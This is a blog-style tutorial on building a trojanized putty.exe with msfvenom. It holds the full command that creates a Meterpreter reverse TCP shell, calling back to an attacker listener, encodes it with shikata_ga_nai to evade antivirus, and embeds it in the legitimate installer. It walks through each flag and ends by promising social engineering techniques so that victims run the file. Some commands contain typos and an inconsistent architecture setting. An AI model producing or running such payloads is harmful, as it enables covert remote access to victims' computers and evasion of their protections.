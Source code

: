 ```yaml
---
layout: post
title: "msfvenom walkthrough"
subtitle: "how-to create a payload"
date: YYYY-MM-DD HH:MM:SS
background: '/PATH_TO_IMAGE'
---
```

![alt text](http://www.interpretermag.com/wp-content/uploads/2014/03/hacker-grenade.jpg "Logo Title Text 1")

## How to create a payload with MSF Venom
Hello 1337 newbs. Today we will go over how to create and obfuscate a reverse TCP shell through MSF Venom. I will be using Kali 2.0 to complete this so feel free to follow along.

To launch a successful attack you will need to be able to bypass anti-virus software or other host-based protection for successful exploitation. The most effective way to avoid anti-virus detection on your target’s computers is to create your own customized back-door. We can leverage the built in ability to obfuscate payloads within commonly used files. In this example I will use putty.exe to supply the payload and we will use MSF Venom's encoder to hide the payload from Anti-virus.

#### Disclaimer - This method will probably not bypass an up to date anti-virus

### MSF Venom
msfvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. Note: msfvenom has replaced both msfpayload and msfencode as of June 8th, 2015.


```
$ msfvenom --help
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>

Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload
    -f, --format        <format>     Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder       <encoder>    The encoder to use
    -a, --arch          <arch>       The architecture to use
        --platform      <platform>   The platform of the payload
        --help-platforms             List available platforms
    -s, --space         <length>     The maximum size of the resulting payload
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff'
    -i, --iterations    <count>      The number of times to encode the payload
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include
    -x, --template      <path>       Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out           <path>       Save the payload
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
```
    
Lets take a look at some useful options
    
* -p designates the Metasploit payload we want to use
* -e designates the encoder we want to use
* -a designates the architecture we want to use (default is x86)
* -s designates the maximum size of the payload
* -i designates the number of iterations with which to encode the payload
* -x designates a custom executable file to use as a template ```

## Encoders
Encoders are the various algorithms and encoding schemes that Metasploit can use to re-encode the payloads.
We can looks at these by typing

```
$ msfvemon -l encoders
Framework Encoders
==================

    Name                          Rank       Description
    ----                          ----       -----------
    cmd/echo                      good       Echo Command Encoder
    cmd/generic_sh                manual     Generic Shell Variable Substitution Command Encoder
    cmd/ifs                       low        Generic ${IFS} Substitution Command Encoder
    cmd/perl                      normal     Perl Command Encoder
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    cmd/printf_php_mq             manual     printf(1) via PHP magic_quotes Utility Command Encoder
    generic/eicar                 manual     The EICAR Encoder
    generic/none                  normal     The "none" Encoder
    mipsbe/byte_xori              normal     Byte XORi Encoder
    mipsbe/longxor                normal     XOR Encoder
    mipsle/byte_xori              normal     Byte XORi Encoder
    mipsle/longxor                normal     XOR Encoder
    php/base64                    great      PHP Base64 Encoder
    ppc/longxor                   normal     PPC LongXOR Encoder
    ppc/longxor_tag               normal     PPC LongXOR Encoder
    sparc/longxor_tag             normal     SPARC DWORD XOR Encoder
    x64/xor                       normal     XOR Encoder
    x86/add_sub                   manual     Add/Sub Encoder
    x86/alpha_mixed               low        Alpha2 Alphanumeric Mixedcase Encoder
    x86/alpha_upper               low        Alpha2 Alphanumeric Uppercase Encoder
    x86/avoid_underscore_tolower  manual     Avoid underscore/tolower
    x86/avoid_utf8_tolower        manual     Avoid UTF8/tolower
    x86/bloxor                    manual     BloXor - A Metamorphic Block Based XOR Encoder
    x86/call4_dword_xor           normal     Call+4 Dword XOR Encoder
    x86/context_cpuid             manual     CPUID-based Context Keyed Payload Encoder
    x86/context_stat              manual     stat(2)-based Context Keyed Payload Encoder
    x86/context_time              manual     time(2)-based Context Keyed Payload Encoder
    x86/countdown                 normal     Single-byte XOR Countdown Encoder
    x86/fnstenv_mov               normal     Variable-length Fnstenv/mov Dword XOR Encoder
    x86/jmp_call_additive         normal     Jump/Call XOR Additive Feedback Encoder
    x86/nonalpha                  low        Non-Alpha Encoder
    x86/nonupper                  low        Non-Upper Encoder
    x86/opt_sub                   manual     Sub Encoder (optimised)
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
    x86/single_static_bit         manual     Single Static Bit
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
```
We will use x86\shikate_ga_nai in our example

## Building the Payload

I will start with our completed command and we then we will analyze each option in more detail.

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 -b '\x00'-a x64 LHOST=10.1.10.2 LPORT=443 -x ~/Windows/Programs/putty.exe -f exe > ~/payloads/windows/EvilPutty.exe
```
* -p windows/meterpreter/reverse_tcp
  * Payload to use. A list can be found by using the command ```msfconsole``` and then entering ```show payloads``` at the msfconsole prompt.
* -e x86/shikata_ga_nai
  * Encoder - This is the algorithm that is used to encode your shell code in attempts to bypass anti-vurs. shikata_ga_nai is a polymorphic shell code encoder. More can be read about it on the web.
* -i 20
  * Iterations - this is the number of time your payload will be encoded.
* -b 
  * Bad Characters - A bad character is simply a list of unwanted characters that can break the shell codes. Depending on the application and the developer logic there is a different set of bad characters for every program that we would encounter. Some common ones include
    * 00 for NULL
    * OA for Line Feed \n
    * OD for Carriage Return \r
    * FF for Form Feed \f
* -a x86
  * This is the architecture of the program we are hiding our payload in.
* LHOST=
  * Listening Host - This will be the IP that we want our reverse TCP shell to call back too.
* LPORT=
  * Listening Port - This will be the port our host is listening on.
* -x ~/windows/Programs/putty.exe
  * Template - This is the path to the program we want to use as a template.
* -f 
  * Format - This is the output format we want.
* \> ~/payloads/windows/EvilPutty.exe
  * This is the output file.
 
# Wrapping it up
Although this method might not work every time, there is a very good possibility that the victim might not have anti-virus installed or turned on their machine. The next step would be coming up with a way to get someone to run this payload. There are many ways to do this. Next time we will cover some ways to social engineer someone to run this payload on their machine for you.
